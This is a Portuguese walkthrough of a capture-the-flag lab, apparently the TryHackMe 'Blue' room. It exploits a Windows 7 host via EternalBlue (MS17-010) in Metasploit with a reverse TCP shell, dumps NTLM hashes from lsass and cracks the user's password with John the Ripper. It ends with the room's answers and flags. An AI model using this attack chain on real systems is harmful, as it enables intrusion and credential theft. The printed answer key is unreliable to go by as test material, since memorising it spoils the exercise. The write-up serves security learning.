








---



---
## 🔹**Informações**

IP: 
TARGET - 10.65.141.171

Portas:
PORT            VERSION
135/tcp     msrpc        Microsoft Windows RPC
139/tcp     netbios-ssn  Microsoft Windows netbios-ssn
==**445/tcp     microsoft-ds Microsoft Windows 7 - 10 microsoft-ds**==
49152/tcp   msrpc        Microsoft Windows RPC
49153/tcp   msrpc        Microsoft Windows RPC
49154/tcp   msrpc        Microsoft Windows RPC
49160/tcp   msrpc        Microsoft Windows RPC
49165/tcp   msrpc        Microsoft Windows RPC

Users:
Jon

Hashes:
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

## Análise a partir dessas informações

- Porta 445 aberta → SMB exposto
- Sistema: Windows 7 → potencialmente vulnerável
- Vulnerabilidade conhecida: MS17-010 (EternalBlue)
- Decisão: explorar via Metasploit

---
## 🔹**PoC**
```python
$ ping -c 4 10.65.141.171
$ sudo nmap -sS -T insane 10.65.141.171 # Use '-T5' apenas em labs THM... rsrs
```


```python
$ sudo nmap -sS -sV -p445 -T insane 10.65.141.171
```


```python
$ nmap --script smb-vuln* -p445 10.65.141.171
```

O script confirmou que o alvo é vulnerável ao MS17-010 EternalBlue.

---
## Vamos utilizar o MetaSploit
```python
$ msfconsole
> search eternalblue # Localize o caminho executável
> use exploit/windows/smb/ms17_010_eternalblue 
> show options
```

### Agora iremos configurar o MetaSploit

```python
# Configure seu host
set LHOST 192.168.225.13 # Confira seu IP com 'ip a'
set LPORT 4444 # Defina uma porta de retorno ao seu host

# Configure o alvo
set RHOSTS 10.65.141.171 # Configure o IP do Target
set RPORT 445 # Configure a porta do SMB que validamos com o NMAP

# Ajustar para uma Configuração Windows
set payload windows/x64/shell/reverse_tcp
```

## 🔹**Tudo configurado, vamos executar**
Use o comando ``exploit``

### Dentro da máquina
```python
# Confirmação do acesso
[+] 10.65.141.171:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-
[+] 10.65.141.171:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-
[+] 10.65.141.171:445 - =-=-=--=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

(Meterpreter 1)(C:\Windows\system32) > # Sucesso!

# Estamos dentro da máquina como SYSTEM, porém, mesmo com privilégios SYSTEM, o processo inicial pode ser instável. Então iremos migrar para um estável.
# A migração garante persistência e evita perda da sessão.
(Meterpreter 1)(C:\Windows\system32) > migrate 724
"PID 724   616   lsass.exe             x64   0        NT AUTHORITY\SYSTEM"

# Vamos usar um comando para pegar as hashes de usuários
(Meterpreter 1)(C:\Windows\system32) > hashdump
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
# Aqui descobrimos também o nome do usuário padrão 'Jon'
```

Na nossa máquina, vamos usar o John The Ripper para quebrar a hash de senha do usuário.

```python
# Salve apenas a linha da hash num arquivo 'hash.txt'
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# E temos nossa senha 'alqfna22'
```


E com o comando `search -f flag*.txt`, vamos conseguir a localização de todas as flags.



---
## 🔹**Respostas**

### Tarefa 1
1.2: 3  
1.3: MS17-010

### Tarefa 2
2.2: exploit/windows/smb/ms17_010_eternalblue  
2.3: RHOSTS

### Tarefa 3
3.1: post/multi/manage/shell_to_meterpreter  
3.2: SESSION

### Tarefa 4
4.1: Jon  
4.2: alqfna22

### Tarefa 5
5.1: flag{access_the_machine}  
5.2: flag{sam_database_elevated_access}  
5.3: flag{admin_documents_can_be_valuable}

---
## Reflexão sobre a atividade

- SMB (porta 445) é um vetor crítico em ambientes Windows
- EternalBlue ainda é extremamente relevante
- Metasploit facilita exploração, mas entender o processo é essencial
- Migração de processo é importante para estabilidade
- Hashdump permite extração de credenciais para movimentação lateral
---

Observações: 
- O exploit pode falhar devido à instabilidade da vulnerabilidade  
- Em caso de falha, reiniciar a máquina alvo  
- Alternar portas (LPORT) pode ajudar
---
# 🔹Room Badge 
